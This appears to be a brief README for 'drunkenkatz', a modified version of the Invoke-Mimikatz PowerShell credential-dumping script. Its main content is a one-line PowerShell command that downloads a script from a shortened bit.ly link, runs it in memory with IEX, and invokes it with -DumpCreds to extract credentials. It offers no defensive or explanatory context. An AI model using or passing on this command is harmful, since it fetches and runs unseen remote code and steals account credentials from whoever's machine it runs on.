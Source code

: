 # drunkenkatz
a 'modified' version of the Invoke-Mimikatz.ps1 powershell script

powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2mwWXzS'); Invoke-Drunkenkatz -DumpCreds"
